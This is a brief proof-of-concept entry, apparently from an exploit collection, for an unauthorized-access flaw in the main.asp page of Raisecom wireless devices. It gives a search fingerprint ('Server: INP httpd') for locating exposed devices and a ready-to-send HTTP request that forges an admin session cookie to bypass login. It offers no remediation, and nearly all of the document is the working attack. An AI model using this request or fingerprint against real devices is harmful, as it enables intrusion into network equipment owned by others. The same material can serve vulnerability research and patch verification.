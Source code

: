 瑞斯康达 wireless main.asp 存在未授权访问漏洞。



banner="Server: INP httpd" || header="Server: INP httpd"





```yaml
GET /main.asp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Ge  cko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Cookie: sessionid=admin
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest


```

